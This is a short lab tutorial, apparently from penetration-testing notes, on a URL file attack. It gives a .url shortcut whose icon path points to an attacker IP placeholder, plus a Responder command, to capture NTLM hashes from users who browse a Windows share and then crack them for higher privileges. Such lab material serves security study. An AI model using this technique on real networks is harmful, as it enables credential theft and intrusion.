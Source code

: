 
If we have compromised a particular user, and that user has any sort of share access, file share access.

- we can utilize this to capture more hashes via responder
- Go back and try to crack this hashes
- Then get a user with more advanced privileges

This attack requires a compromised user account or an open file share, where you can put a file in the share.

- The content of the file contains what is shown below, whereby we will replace `x.x.x.x` with our attacker IP

```html
[InternetShortcut]
URL=http://google.com
WorkingDirectory=%username%
IconFile=\\x.x.x.x\%USERNAME%.icon
IconIndex=1
```

- We can then save the file as `"@test.url"` and upload it to a share (**File explorer >> Network >> HYDRA-DC >> hackme**) on your THEPUNISHER vm (This should be done in the windows system)
- Make sure **HTTP** and **SMB** is turned ON in responder. (default responder settings)

![](https://i.imgur.com/N694Qbl.png)


- Then start up responder with the command `sudo responder -I wlan0 -dwv` 
- Navigate back to that share where the file was uploaded on your THEPUNISHER vm and go back to your terminal where responder is opened, you should see the hashes dumped


![](https://i.imgur.com/LlR1nxJ.jpg)


Navigate to https://swepstopia.com/url-file-attack/ to know better





